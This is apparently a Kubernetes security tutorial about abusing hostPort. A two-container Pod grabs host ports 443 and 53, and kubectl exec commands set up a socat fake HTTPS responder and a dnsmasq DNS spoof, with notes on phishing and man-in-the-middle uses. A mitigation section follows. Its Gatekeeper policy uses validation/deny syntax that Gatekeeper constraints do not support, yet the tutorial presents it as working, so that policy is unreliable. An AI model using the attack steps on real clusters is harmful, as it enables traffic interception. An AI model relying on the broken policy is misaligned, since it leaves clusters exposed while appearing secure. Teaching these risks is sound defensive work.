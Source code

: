 ### Attack Example: HostPort Exploitation with Critical Ports

In this scenario, we will explore how an attacker can exploit a Pod configured with multiple containers, where each container uses `hostPort` to gain control over critical ports on the host system. This example demonstrates the risks associated with exposing host ports to containers and using multiple containers within a single Pod.

#### Pod YAML Definition

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: badpod05
spec:
  containers:
  - name: container01
    image: busybox
    command: ["sh", "-c", "sleep 3600"]
    ports:
    - name: web-secure
      containerPort: 4443
      hostPort: 443
  - name: container02
    image: busybox
    command: ["sh", "-c", "sleep 3600"]
    ports:
    - name: dns
      containerPort: 5553
      hostPort: 53
      protocol: UDP
```

#### Attack Scenario

1. **Pod Creation**

   The attacker creates the Pod `badpod05` with two containers. The first container binds its port `4443` to the host's port `443` for TCP traffic, commonly used for secure web services (HTTPS), while the second container binds its port `5553` to the host's port `53` for UDP traffic, commonly used for DNS services.

2. **Gaining Control Over HTTPS and DNS Ports**

   By binding to ports `443` and `53` on the host, the attacker can control HTTPS and DNS traffic to and from the host. This allows the attacker to intercept, modify, or block HTTPS and DNS requests.

3. **Running a Malicious HTTPS Service**

   Once the Pod is running, the attacker can set up a malicious HTTPS server inside the first container to intercept secure web traffic:

   ```sh
   kubectl exec -it badpod05 -c container01 -- sh
   # Install and configure a simple HTTPS server
   apk update && apk add openssl socat
   mkdir -p /etc/ssl/private
   openssl req -newkey rsa:2048 -nodes -keyout /etc/ssl/private/server.key -x509 -days 365 -out /etc/ssl/private/server.crt -subj "/CN=localhost"
   socat openssl-listen:443,cert=/etc/ssl/private/server.crt,key=/etc/ssl/private/server.key,fork,reuseaddr SYSTEM:"echo 'HTTP/1.1 200 OK\r\n\r\nMalicious Server'"
   ```

   This configuration sets up a simple HTTPS server that responds with a malicious message.

4. **Running a Malicious DNS Service**

   The attacker can set up a malicious DNS server inside the second container to respond to DNS queries with false information:

   ```sh
   kubectl exec -it badpod05 -c container02 -- sh
   # Install dnsmasq and configure it
   apk update && apk add dnsmasq
   echo "address=/malicious.com/192.168.1.100" > /etc/dnsmasq.conf
   dnsmasq -k
   ```

   This configuration makes any DNS query for `malicious.com` resolve to `192.168.1.100`, a malicious IP address.

5. **Intercepting and Manipulating Traffic**

   With control over the HTTPS and DNS ports, the attacker can perform various malicious activities:

   - **Phishing Attacks**: Redirect legitimate domains to malicious servers designed to steal credentials or distribute malware.
   - **Man-in-the-Middle (MitM) Attacks**: Redirect traffic to an attacker-controlled server to intercept and manipulate communications.
   - **Denial of Service**: Block legitimate HTTPS and DNS requests, causing disruptions in network services.

6. **Exploiting the Combined Access**

   By combining access to both HTTPS and DNS traffic, the attacker can perform sophisticated attacks, such as intercepting secure communications and redirecting users to malicious sites.

#### Impact of the Attack

- **Traffic Redirection**: The attacker can redirect traffic intended for legitimate sites to malicious servers, facilitating phishing and other malicious activities.
- **Service Disruption**: By manipulating or blocking HTTPS and DNS traffic, the attacker can cause significant disruptions to network services.
- **Information Theft**: Intercepting and manipulating HTTPS and DNS traffic can lead to the theft of sensitive information, such as credentials and personal data.
- **Comprehensive Attack Surface**: The combination of controlling both HTTPS and DNS traffic greatly increases the attack surface, allowing for more complex and damaging attacks.

### Mitigation

To mitigate these risks, ensure that Pods do not use `hostPort` unless absolutely necessary and implement policies to enforce this.

#### Gatekeeper Policy Example

```yaml
apiVersion: constraints.gatekeeper.sh/v1beta1
kind: K8sNoHostPort
metadata:
  name: disallow-hostport
spec:
  match:
    kinds:
      - apiGroups: [""]
        kinds: ["Pod"]
  validation:
    message: "Using hostPort is disallowed."
    deny:
      conditions:
        all:
          - key: "spec.containers[*].ports[*].hostPort"
            operator: Exists
```

### Expected Error Message

If the policy disallows `hostPort`, attempting to create `badpod05` will result in an error:

```
Error from server (Forbidden): error when creating "badpod05.yaml": admission webhook "validation.gatekeeper.sh" denied the request: Using hostPort is disallowed.
```

### Summary

Disallowing the use of `hostPort` in Kubernetes pods prevents containers from gaining control over host ports, thereby enhancing the security and integrity of the host's network services. Use policies to enforce these restrictions and ensure a secure cluster environment.